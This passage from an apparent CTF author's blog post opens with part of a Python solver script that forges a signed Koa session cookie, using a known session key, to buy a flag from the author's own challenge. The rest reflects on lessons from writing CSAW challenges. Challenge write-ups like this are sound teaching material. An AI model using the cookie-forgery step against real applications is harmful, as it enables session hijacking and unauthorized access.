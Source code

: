 ```python
                              "refreshToken": refreshToken, "tokenType": "Bearer", "expiresAt":  session_data_json['oauthState']['expiresAt'] + expiresIn}
print(f'session: {session_data_json}')
session_data = b'koa:sess=' + \
    base64.b64encode(json.dumps(session_data_json).encode())
hmac_signature = hmac.new(KOA_SESSION_KEY, session_data, hashlib.sha1).digest()
koa_sess_sig = base64.urlsafe_b64encode(
    hmac_signature).decode().rstrip('=').encode()
# put this into koa:sess.sig to get flag
cookie = session_data + b'; koa:sess.sig=' + koa_sess_sig
response = session.get(
    f'http://{HOST}:3001/buy_flagosaurus', headers={'Cookie': cookie})
print(response.content)
```

## Lessons Learned

After writing [my first CTF challenge](https://github.com/osirislab/CSAW-CTF-2022-Quals/tree/master/forensics/android_forensics_easy) last year, I received some feedback saying red herrings should be avoided since they only frustrate players. I tried to keep this in mind this year and I think the challenges I wrote were fairly straightforward. However, there is always something to take away from each experience. This year, I learned how great build/testing scripts are, to double check everything, the power of CyberChef, and the importance of testing. 

During quals, due to the hard-coded variables in the "dropped.dex" file, I found myself constantly looking back at reference pages to convert java files into dex files for Android. With the compeition near, I decided to write a build script to create this file and encode it to copy into the dropper apk quickly. This came in handy because we had to switch up our infrastructure right before the challenges were released and I was able to push the change just in time. 

Unfortunately, at the start of the CTF, I made a mistake and put the "c2" address in the CTFd challenge description, immediately reavealing the string containing the flag to competitors. Out of fairness to everyone, I decided to just leave this up. I think this potentially reduced the challenge difficulty since the first part of the challenge was to find this address, like the EFF researchers did with the real tor c2 address. In the end, I think most players solved the challenge correctly since the xor key was also not revealed until "dropped.dex" was decoded. However, one clever participant notified me that the entire challenge was solvable using CyberChef's "Magic" tool, which I was completely unaware of and amazed to learn about. Since then, I have been using it as a quick inital test for everything. In the end, while not a huge deal, this non-intentional solution to the challenge could have been avoided if I had just double-checked the description before the start of competition.

![cyberchef_magic]({{"../assets/2022-11-12-Writing_CTF_Challenges/cyberchef_magic.png" | relative_url }})

During finals, I was very happy to have a solver script ready when we reached the deployment phase. When deploying a web challenge, there are many different things that could affect the flow of your website, and when the main element of your challenge involves flow (oauth), many things could go wrong. While testing, we had some dns issues so we had to release the challenge with an ip address. Luckily, we were able to diagnose this efficiently without opening up Burpsuite and going throught the entire challenge for each new test.

I also learned how important it is to have good playtesters during Finals. (Thank you to our testers!) We received great feedback, which helped us make some last minute tweaks and better handle players' questions during the competition. I did also try to contribute to testing another challenge for the CTF. Unfortunately, it was too hard and I realized how much I still have to learn about hacking webapps.